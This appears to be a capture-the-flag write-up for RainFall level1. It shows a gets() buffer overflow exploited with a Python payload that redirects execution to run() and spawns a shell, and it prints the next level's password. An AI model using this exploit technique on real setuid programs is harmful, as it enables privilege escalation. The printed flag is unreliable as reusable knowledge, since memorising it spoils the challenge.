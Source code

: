 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
*	Instead of using i used a generated string from this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to make sure the address is ok
	```console
	level1@RainFall:~$ echo str > /tmp/exlpoit
	```
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ gdb ./level1
	(gdb) r < /tmp/exploit
	Starting program: /home/user/level1/level1 < /tmp/exploit

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	```
*	I found this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to get calculate the offset and it is `76`
*	Our exploit will be the usgin the run function.
	```assembly
	08048444 <run>:
	```
*	In many modern systems, including Intel x86 and x86_64 architectures, little-endian is the prevalent byte order. So we add `\x44\x84\x04\x08` in the end of the exploit.
*	Let's try this, this time I use python to make this more readable:
	```console
	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
	level1@RainFall:~$ cat /tmp/exploit | ./level1 
	Good... Wait what?
	Segmentation fault (core dumped)
	```
	Make sure to use `echo -e` if you don't use python print because the memory part won't be interpreted as binary data.
*	The issue here is that the `/bin/sh` will shutdown because it is trying to read `STDIN`. We have to make sure cat, there is many ways to make sure it keeps reading 
	```console
	level1@RainFall:~$ (cat /tmp/exploit; cat) | ./level1
	level1@RainFall:~$ cat /tmp/exploit - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```